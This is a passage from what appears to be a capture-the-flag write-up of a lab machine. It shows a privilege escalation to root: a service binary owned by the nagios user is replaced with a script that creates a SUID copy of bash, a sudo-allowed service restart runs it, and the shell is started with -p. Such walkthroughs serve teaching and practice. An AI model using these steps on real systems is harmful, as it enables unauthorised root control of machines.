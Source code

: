 The top two are interesting! They are both owned by the nagios user!

#### Execute

I’ll save a copy of the `nagios` binary:

```

nagios@monitored:/usr/local/nagios/bin$ mv nagios nagios.bk

```

I’ll write a simple `bash` script to `/tmp/x.sh`:

```

#!/bin/bash

cp /bin/bash /tmp/0xdf
chown root:root /tmp/0xdf
chmod 6777 /tmp/0xdf

```

I’ll copy that to `nagios`, and set the permissions so that it’s executable:

```

nagios@monitored:/usr/local/nagios/bin$ cp /tmp/x.sh nagios
nagios@monitored:/usr/local/nagios/bin$ chmod +x nagios

```

Now I’ll restart the service:

```

nagios@monitored:/usr/local/nagios/bin$ sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
Job for nagios.service failed because the control process exited with error code.
See "systemctl status nagios.service" and "journalctl -xe" for details.

```

It fails because this is not a valid service, but it still ran:

```

nagios@monitored:/usr/local/nagios/bin$ ls -la /tmp/0xdf 
-rwsrwsrwx 1 root root 1234376 May  9 08:33 /tmp/0xdf

```

I’ll run with `-p` to keep privs and get a shell as root:

```

nagios@monitored:/usr/local/nagios/bin$ /tmp/0xdf -p
0xdf-5.1#

```
